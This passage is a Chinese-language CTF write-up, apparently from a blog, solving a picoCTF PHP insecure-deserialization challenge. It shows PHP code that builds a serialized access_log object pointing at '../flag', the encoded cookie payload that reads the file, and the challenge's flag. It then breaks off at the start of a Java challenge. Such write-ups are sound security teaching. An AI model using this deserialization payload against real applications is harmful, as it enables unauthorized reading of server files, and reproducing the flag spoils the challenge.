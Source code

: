 這裡的反序列化是不安全的（題目名稱也有提示是和 Serial 有關），如果反序列化失敗，進入到 catch error 裡面，就會把 `$perm`輸出。在 `authentication.php`裡面的 `access_log`這個類中，他定義了 `__toString()`就是讀取並回傳 `log_file`的內容。

所以我們只要建立一個 `login`的 cookie，並輸入錯誤的值，就可以觸發反序列化的錯誤。下圖中我設置了 `login`的值為 `TEST`，成功觸發反序列化錯誤的訊息。

![Deserialization error](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240706160307961.png)

接著我們用[PHP Sandbox](https://onlinephp.io/)來線上寫一些 php 的程式碼。這邊會這樣寫是因為我們從 `cookie.phps`中可以看到原始碼是先 URL decode 再 Base64 decode，最後才反序列化。所以整個流程就是反過來就對了。

```php
<?php
print(urlencode(base64_encode(serialize("TEST"))))
?>
```

他這邊輸出了 `czo0OiJURVNUIjs%3D`，我們把 cookie 的值修改為這個試試看，能不能正確的輸出 `TEST`。

![PoC](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240706160839984.png)

成功！再來我們只需要 new 一個 access_log 的 class，並且把他的 `$log_file`設定為 `"../flag"`就可以了！Exploit 如下。

```php
<?php

class access_log
{
    public $log_file = "../flag";
}

$payload = new access_log();

print urlencode(base64_encode(serialize($payload)));
?>
```

上面這個代碼執行後會得到

```txt
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

這個就是我們最終的 Payload 啦，把它貼到 `login`的 cookie 的 value，並在`authentication.php`的頁面重新整理試試看吧。

![Pwned!](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240706161944368.png)

```txt
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}
```

# Java Code Analysis!?!

這題稍微大一點，是一個電子書系統。一開始他給了一個登入介面還有一組帳密：帳號 `user`，密碼 `user`。除此之外，也有給源代碼。我們先來看看網頁的樣子。

![Login](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240704143233744.png)
